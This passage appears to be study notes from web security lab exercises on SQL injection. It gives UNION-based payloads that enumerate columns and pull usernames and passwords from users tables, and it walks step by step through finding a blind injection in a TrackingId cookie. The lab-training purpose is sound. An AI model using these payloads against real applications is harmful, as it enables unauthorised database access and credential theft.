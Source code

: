 4. Obtain the columns of the table

```
' union select NULL,column_name from all_tab_columns where table_name='USERS_NKSROM'-- -
```

5. Obtain the data.

```
' union select USERNAME_OKUQCM,PASSWORD_TBPKBA from USERS_NKSROM-- -
```

# SQL injection UNION attack, determining the number of columns returned by the query

```sql
' union select NULL,NULL,NULL-- -
```

# SQL injection UNION attack, finding a column containing text

```sql
'union select NULL,'wn3joN',NULL-- -
```

# SQL injection UNION attack, retrieving data from other tables

Repeat again the methodology of SQLi, obtain the database, tables, columns, data.

# SQL injection UNION attack, retrieving multiple values in a single column

You can use group_concat(),concat() 0x3a in place of colon(:), double pipe, try hexadecimal names... 0x...

```mysql
' union select NULL,username || ' -> ' || password from public.users-- -
```

# Blind SQL injection with conditional responses

You don't see the result of the SQL in the website but you can observate the behaviour of the web and see if something change if the query is true or false.

You detect that exist a trackId cookie and there is a possibility that he is using a sql query.

You start testing with a quote, in developer tools for example or burp and you detect something different in the website, the message Welcome back! disappear. Then you start with the recognition seen above.

1. Detect TrackingId cookie like possible sql injection.
2. Test with a quote
3. Use order clause
4. Use union select clause with number(doesn't work because the message welcome back doesn't appear).
5. Use union select caluse with null, works the message appear.
6. Try to inject some text and see that the message appear, but the text is not reflected in the website. Now you know that is a **Blind SQLi**
7. You discard that the database engineer is Oracle because the message welcome back appear without indicate any table.
8. In resumen, we have a way to identify when something is valid or not, this is thanks to the message appearing and disappearing.
9. We can use a nestead query to discover charactars
